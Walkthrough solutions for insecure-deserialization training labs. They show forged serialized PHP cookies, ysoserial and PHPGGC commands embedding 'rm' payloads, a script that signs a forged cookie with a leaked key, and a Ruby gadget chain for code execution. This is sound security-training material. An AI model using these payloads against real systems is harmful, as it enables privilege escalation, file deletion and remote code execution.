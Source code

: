Lab: Modifying serialized objects

    Log in using your own credentials. Notice that the post-login GET /my-account request contains a session cookie that appears to be URL and Base64-encoded.
    Use Burp's Inspector panel to study the request in its decoded form. Notice that the cookie is in fact a serialized PHP object. The admin attribute contains b:0, indicating the boolean value false. Send this request to Burp Repeater.
    In Burp Repeater, use the Inspector to examine the cookie again and change the value of the admin attribute to b:1. Click "Apply changes". The modified object will automatically be re-encoded and updated in the request.
    Send the request. Notice that the response now contains a link to the admin panel at /admin, indicating that you have accessed the page with admin privileges.
    Change the path of your request to /admin and resend it. Notice that the /admin page contains links to delete specific user accounts.
    Change the path of your request to /admin/delete?username=carlos and send the request to solve the lab.


Lab: Modifying serialized data types

    Log in using your own credentials. In Burp, open the post-login GET /my-account request and examine the session cookie using the Inspector to reveal a serialized PHP object. Send this request to Burp Repeater.
    In Burp Repeater, use the Inspector panel to modify the session cookie as follows:
        Update the length of the username attribute to 13.
        Change the username to administrator.
        Change the access token to the integer 0. As this is no longer a string, you also need to remove the double-quotes surrounding the value.
        Update the data type label for the access token by replacing s with i.

    The result should look like this:
    O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
    Click "Apply changes". The modified object will automatically be re-encoded and updated in the request.
    Send the request. Notice that the response now contains a link to the admin panel at /admin, indicating that you have successfully accessed the page as the administrator user.
    Change the path of your request to /admin and resend it. Notice that the /admin page contains links to delete specific user accounts.
    Change the path of your request to /admin/delete?username=carlos and send the request to solve the lab.


Lab: Using application functionality to exploit insecure deserialization

    Log in to your own account. On the "My account" page, notice the option to delete your account by sending a POST request to /my-account/delete.
    Send a request containing a session cookie to Burp Repeater.
    In Burp Repeater, study the session cookie using the Inspector panel. Notice that the serialized object has an avatar_link attribute, which contains the file path to your avatar.

    Edit the serialized data so that the avatar_link points to /home/carlos/morale.txt. Remember to update the length indicator. The modified attribute should look like this:
    s:11:"avatar_link";s:23:"/home/carlos/morale.txt"
    Click "Apply changes". The modified object will automatically be re-encoded and updated in the request.
    Change the request line to POST /my-account/delete and send the request. Your account will be deleted, along with Carlos's morale.txt file.


Lab: Arbitrary object injection in PHP

    Log in to your own account and notice the session cookie contains a serialized PHP object.
    From the site map, notice that the website references the file /libs/CustomTemplate.php. Right-click on the file and select "Send to Repeater".
    In Burp Repeater, notice that you can read the source code by appending a tilde (~) to the filename in the request line.
    In the source code, notice the CustomTemplate class contains the __destruct() magic method. This will invoke the unlink() method on the lock_file_path attribute, which will delete the file on this path.

    In Burp Decoder, use the correct syntax for serialized PHP data to create a CustomTemplate object with the lock_file_path attribute set to /home/carlos/morale.txt. Make sure to use the correct data type labels and length indicators. The final object should look like this:
    O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
    Base64 and URL-encode this object and save it to your clipboard.
    Send a request containing the session cookie to Burp Repeater.
    In Burp Repeater, replace the session cookie with the modified one in your clipboard.
    Send the request. The __destruct() magic method is automatically invoked and will delete Carlos's file.

Lab: Exploiting Java deserialization with Apache Commons

    Log in to your own account and observe that the session cookie contains a serialized Java object. Send a request containing your session cookie to Burp Repeater.

    Download the "ysoserial" tool and execute the following command. This generates a Base64-encoded serialized object containing your payload:

        In Java versions 16 and above:
        java -jar ysoserial-all.jar \
           --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
           --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
           --add-opens=java.base/java.net=ALL-UNNAMED \
           --add-opens=java.base/java.util=ALL-UNNAMED \
           CommonsCollections4 'rm /home/carlos/morale.txt' | base64

        In Java versions 15 and below:
        java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
    In Burp Repeater, replace your session cookie with the malicious one you just created. Select the entire cookie and then URL-encode it.
    Send the request to solve the lab.

Lab: Exploiting PHP deserialization with a pre-built gadget chain

    Log in and send a request containing your session cookie to Burp Repeater. Highlight the cookie and look at the Inspector panel.
    Notice that the cookie contains a Base64-encoded token, signed with a SHA-1 HMAC hash.
    Copy the decoded cookie from the Inspector and paste it into Decoder.
    In Decoder, highlight the token and then select Decode as > Base64. Notice that the token is actually a serialized PHP object.
    In Burp Repeater, observe that if you try sending a request with a modified cookie, an exception is raised because the digital signature no longer matches. However, you should notice that:
        A developer comment discloses the location of a debug file at /cgi-bin/phpinfo.php.
        The error message reveals that the website is using the Symfony 4.3.6 framework.
    Request the /cgi-bin/phpinfo.php file in Burp Repeater and observe that it leaks some key information about the website, including the SECRET_KEY environment variable. Save this key; you'll need it to sign your exploit later.

    Download the "PHPGGC" tool and execute the following command:
    ./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64

    This will generate a Base64-encoded serialized object that exploits an RCE gadget chain in Symfony to delete Carlos's morale.txt file.
    You now need to construct a valid cookie containing this malicious object and sign it correctly using the secret key you obtained earlier. You can use the following PHP script to do this. Before running the script, you just need to make the following changes:
        Assign the object you generated in PHPGGC to the $object variable.
        Assign the secret key that you copied from the phpinfo.php file to the $secretKey variable.
    <?php
    $object = "OBJECT-GENERATED-BY-PHPGGC";
    $secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
    $cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
    echo $cookie;

    This will output a valid, signed cookie to the console.
    In Burp Repeater, replace your session cookie with the malicious one you just created, then send the request to solve the lab.

Lab: Exploiting Ruby deserialization using a documented gadget chain

    Log in to your own account and notice that the session cookie contains a serialized ("marshaled") Ruby object.

    BAhvOglVc2VyBzoOQHVzZXJuYW1lSSILd2llbmVyBjoGRUY6EkBhY2Nlc3NfdG9rZW5JIiVjN3F6MGxrNjlvaWQ0N29xdmEzMTg1aXhrdTJrZGQ4egY7B0YK
    
    Send a request containing this session cookie to Burp Repeater.
    Browse the web to find the Universal Deserialisation Gadget for Ruby 2.x-3.x by vakzz on devcraft.io. Copy the final script for generating the payload.
    Modify the script as follows:
        Change the command that should be executed from id to rm /home/carlos/morale.txt.
        Replace the final two lines with puts Base64.encode64(payload). This ensures that the payload is output in the correct format for you to use for the lab.
    Run the script and copy the resulting Base64-encoded object.
    In Burp Repeater, replace your session cookie with the malicious one that you just created, then URL encode it.
    Send the request to solve the lab.

ruby rubyexploit.rb | tr -d '\n'


